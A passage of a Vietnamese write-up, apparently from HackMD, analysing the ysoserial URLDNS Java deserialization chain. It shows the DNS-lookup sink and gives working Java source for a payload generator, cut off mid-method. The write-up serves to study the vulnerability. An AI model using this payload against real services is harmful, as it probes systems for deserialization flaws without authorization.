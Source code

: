 ![image](https://hackmd.io/_uploads/H15KeBpAex.png)

Ở đây nếu debug tiếp nó sẽ gọi về url DNS của mình ta tiếp tục follow.

![image](https://hackmd.io/_uploads/ByQa4HpCxl.png)

Ta thấy rằng ở đây InetAddress `.getByName()` đã gọi đến host trong khi đó nó trỏ đến URL của ta thêm vào vậy đây chính là sink của cả payload là nơi thực thi resolve DNS. 

Đây là file `Generation Payload` nó sẽ trả về file dưới dạng base64 format giống như payload do payload gốc đưa ra.

```java 
package ysoserial.payloads;

import java.io.*;
import java.lang.reflect.Field;
import java.net.*;
import java.util.Base64;
import java.util.HashMap;
/**
 * URLDNSPayloadGenerator
 *
 * - Tạo payload HashMap giống chain URLDNS (URL key với SilentURLStreamHandler).
 * - Set URL.hashCode field = -1 bằng reflection để trigger lookup khi deserialize.
 * - Nếu chỉ truyền <target-url>: in payload dưới dạng Base64 ra stdout (text).
 */
public class URLDNSPayloadGenerator {

    public static class SilentURLStreamHandler extends URLStreamHandler {
        @Override
        protected URLConnection openConnection(URL u) throws IOException {
            throw new UnsupportedOperationException("Silent handler: no real connection");
        }

        protected InetAddress getHostAddress(URL u) {
            return null;
        }
    }

    public static Object makePayload(String targetUrl) throws Exception {
        URLStreamHandler handler = new SilentURLStreamHandler();
        HashMap<Object, Object> ht = new HashMap<>();
        URL u = new URL(null, targetUrl, handler);
        ht.put(u, targetUrl);

        Field hashCodeField = URL.class.getDeclaredField("hashCode");
        hashCodeField.setAccessible(true);
        hashCodeField.setInt(u, -1); // URL.hashCode is int, so setInt is safe

        return ht;
    }

    public static byte[] serialize(Object obj) throws IOException {
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(obj);
        oos.flush();
        oos.close();
        return baos.toByteArray();
    }

    public static void usage(PrintStream err) {
        err.println("Usage: java URLDNSPayloadGenerator <target-url> [out-file]");
        err.println("If no out-file provided, Base64-encoded payload is printed to stdout.");
```